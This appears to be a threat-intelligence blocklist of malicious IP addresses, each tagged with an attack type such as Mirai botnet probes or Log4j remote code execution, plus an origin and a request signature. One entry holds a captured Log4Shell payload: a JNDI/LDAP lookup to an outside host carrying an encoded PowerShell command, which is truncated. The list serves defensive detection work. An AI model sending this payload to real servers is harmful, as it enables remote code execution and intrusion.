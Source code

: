 181.219.149.148	#backdoor: Mirai.Botnet | Origin:Brazil | Signature:/spywall/timeConfig.php <br />
18.119.59.84	#Apache.Log4j.Error.Log.Remote.Code.Execution | Origin:USA | Signature:/?id=%24%7Bjndi%3Aldap%3A%2F%2F218.24.200.243%3A8066%2FTomcatBypass%2FCommand%2FBase64%2FcG93ZXJzaGVsbCAtZW5jIFNRQkZBRmdBSUFBb0FFNEFaUUIzQUMwQVR3QmlBR29BWlFCakFIUUFJQUJUQUhrQWN3QjBBR1VBYlFBdUFFNEFaUUIwQUM0QVZ3QmxBR0lBWXdCc0FHa0FaUUJ1QUhRQUtRQXVBRVFBYndCM0F <br />
91.125.213.1	#backdoor: Mirai.Botnet | Origin:UK | Signature:/spywall/timeConfig.php <br />
107.173.159.85	#backdoor: Mirai.Botnet | Origin:USA | Signature:/spywall/timeConfig.php <br />
192.243.59.13	#Default-Compromised Host-Detection-IOC-By-Threat | Origin: Internal | Signature: 192.243.59.13 <br />